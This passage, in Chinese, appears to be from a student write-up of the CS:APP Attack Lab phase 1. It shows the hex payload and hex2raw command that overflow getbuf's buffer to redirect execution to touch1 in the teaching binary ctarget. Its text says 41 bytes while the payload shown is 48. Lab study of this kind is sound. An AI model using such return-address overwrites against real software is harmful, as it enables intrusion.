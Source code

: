 ![](./assets/image-20220305095612188-16608125542844.png)

查到`touch1`代码地址为：`0x4017c0`

由此就有了思路，我们只需要输入41个字符，前40个字节将`getbuf`的栈空间填满，最后一个字节将返回值覆盖为`0x4017c0`即`touch1`的地址，这样，在`getbuf`执行`retq`指令后，程序就会跳转执行`touch1`函数。

### Solution

采用`Write up`推荐方法，创建一个`txt`文档存储输入。并按照`HEX2RAW`工具的说明，在每个字节间用空格或回车隔开。

**`x86`采用小端存储，要注意输入字节的顺序**

我们的输入为：

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

执行命令：

```bash
./hex2raw < ctarget01.txt | ./ctarget -q
```

- `./hex2raw < ctarget01.txt`是利用`hex2raw`工具将我们的输入看作字节级的十六进制表示进行转化，用来生成攻击字符串
- `|`表示管道，将转化后的输入文件作为`ctarget`的输入参数
- 由于执行程序会默认连接 CMU 的服务器，`-q`表示取消这一连接
